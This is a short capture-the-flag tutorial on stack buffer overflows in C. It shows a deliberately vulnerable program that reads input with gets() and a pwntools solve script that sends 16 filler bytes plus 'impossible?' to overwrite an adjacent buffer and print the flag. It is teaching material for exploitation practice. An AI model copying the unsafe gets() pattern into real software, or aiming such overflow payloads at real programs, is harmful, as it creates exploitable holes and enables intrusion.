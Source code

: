 # Example 2
### Description 
There are a number of unsafe functions in C/C++ that allow you to write an arbitrary amount of data, overflowing the allocated buffer.

There are many of these dangerous functions, but some common ones include gets, memcpy, scanf, strcpy, and many more.

Using these dangerous functions we can clobber other variables on the stack.

In the following example we will exploit gets to overwrite the following buffer.

[chal](https://github.com/fahimalshihab/CTF/blob/53a9c10d297439bf1dfefb2474fd0c047b4e314a/Binary%20Exploitation/Buffer%20Overflow/chal)



### Example

```
#include <stdio.h>
#include <string.h>
// gcc -g -o chal chal.c

int main() {
    char buffer1[16];
    char buffer2[16] = "xxxxxxxxxxxxxxx";

    gets(buffer1);

    if (strcmp(buffer2, "impossible?") == 0) {
        puts("flag{win}");
    } else {
        puts("nope");
    }
}
```
### Solution 
Using the buffer overflow, we send input that writes past the allocated space for buffer1 to set the value of buffer2.

Since buffer2 is after buffer1 we first send 16 bytes to fill buffer1, and then write impossible? to buffer2 to get the flag.

### Solve Script 
```
import pwn

p = pwn.process("./chal")

p.sendline(b"a"*16 + b"impossible?")
p.interactive()
```
